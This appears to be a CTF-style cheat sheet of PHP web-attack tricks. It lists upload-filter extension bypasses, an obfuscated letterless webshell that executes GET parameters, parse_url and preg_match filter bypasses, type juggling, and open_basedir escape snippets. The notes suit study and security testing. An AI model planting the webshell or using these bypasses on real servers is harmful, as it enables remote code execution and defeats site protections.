 
### Random stuff

#### #PHP
* file extensions (most servers parse them as php)
    + .pht
    + .phtml
    + php3
    + php4

* non-common php tags
    + ```<script language="php"></script>```
    + ```<% %>```
    + ```<?=```

* shell without letters/numbers
    ```{% raw %}
    <?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
    # <?=$_GET[_]($_GET[__]);
    {% endraw %}```

* parse_url function
    + [relative url problem (//domain.com?asd)](<https://bugs.php.net/bug.php?id=43721>)
    + [http://example.com:80?@google.com/](<https://bugs.php.net/bug.php?id=73192&edit=3>)

* readfile + windows -> filenames blacklist bypass via [8.3 filenames](https://en.wikipedia.org/wiki/8.3_filename)
    + [ctf example](https://blog.0daylabs.com/2016/09/06/using-windows-shortfilename-feature-lfi/)

* preg_match -> bypass via pcre.backtrack_limit
    + create text that will force recursion in vulnerable regex
    + it will fail with warning possibly bypassing protections like
        ```
        if(preg_match("", $_POST['input']) == 0) {
            // process user input...
        }
        ```

* type juggling / weak comparison operator
    + [insomnia pdf](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)
    + [gynvael blog](http://gynvael.coldwind.pl/?id=492)

* base_dir bypass:
    + SplFileObject

        ```$file = new SplFileObject("/var/www/html/blabla/test.php", "w"); $file->fwrite('shell');```
    + pcntl_exec 

        ```pcntl_exec("/bin/bash", "&pkill -9 bash >out");echo file_get_contents("out");```
    + linkinfo, realpath <= 5.3.6
    + [symlinks](https://bugs.php.net/bug.php?id=66171)
    + [mail() + logs](https://packetstormsecurity.com/files/80230/PHP-5.3.0-open_basedir-Bypass.html)
    + [chdir(base_dir,...)](http://91.121.31.50/phuck3.txt)
        ```
        ini_set('open_basedir','..');chdir('..');chdir('..');ini_set('open_basedir','/');
        ```
